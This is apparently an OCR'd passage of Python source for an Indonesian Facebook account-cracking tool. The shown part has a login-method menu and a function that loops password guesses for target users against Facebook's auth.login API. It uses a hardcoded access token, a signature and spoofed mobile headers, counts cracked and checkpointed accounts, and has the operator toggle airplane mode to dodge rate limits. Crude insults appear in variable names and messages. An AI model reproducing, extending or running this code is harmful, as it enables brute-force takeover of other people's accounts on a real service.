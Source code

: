         elif ___yayanganteng___ in ('T', 't'):

            print '\n [ pilih method login - silahkan coba satu² ]\n'

            print ' [%s1%s]. method API (fast)'%(O,N)

            print ' [%s2%s]. method mbasic (slow)'%(O,N)

            print ' [%s3%s]. method mobile (super slow)'%(O,N)

            self.__pler__()

        else:

            print '\n %s[%s×%s] Y/t goblok!'%(N,M,N);self.plerr()

        return

    def __api__(self, user, __yan__):

        global ok,cp,loop

        sys.stdout.write('\r [%s*%s] [crack] %s/%s -> OK-:%s - CP-:%s '%(O,N,loop,len(self.id),len(ok),len(cp))),

        sys.stdout.flush()

        for pw in __yan__:

            pw = pw.lower()

            try: os.mkdir('results')

            except: pass

            try:

            	_kontol = open('YNTKTS.txt', 'r').read()

            except (KeyError, IOError):

            	_kontol = 'Mozilla/5.0 (Linux; Android 11; Redmi 10 Build/RP1A.200720.011; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/92.0.4515.131 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/211.0.0.33.117 Android (30/11; 320dpi; 720x1448; realme; RMX2193; RMX2193; mt6768; fr_FR; 327976424)",;]'

            headers_ = {"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), "x-fb-sim-hni": str(random.randint(20000, 40000)), "x-fb-net-hni": str(random.randint(20000, 40000)), "x-fb-connection-quality": "EXCELLENT", "x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA", "user-agent": _kontol, "content-type": "application/x-www-form-urlencoded", "x-fb-http-engine": "Liger"}

            api = 'https://b-api.facebook.com/method/auth.login'

            params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32',  'format': 'JSON', 'sdk_version': '2', 'email': user, 'locale': 'en_US', 'password': pw, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}

            response = requests.get(api, params=params, headers=headers_)

            if response.status_code != 200:

                sys.stdout.write('\r %s[%s!%s] Hidupkan mode pesawat 2 detik'%(N,M,N)),
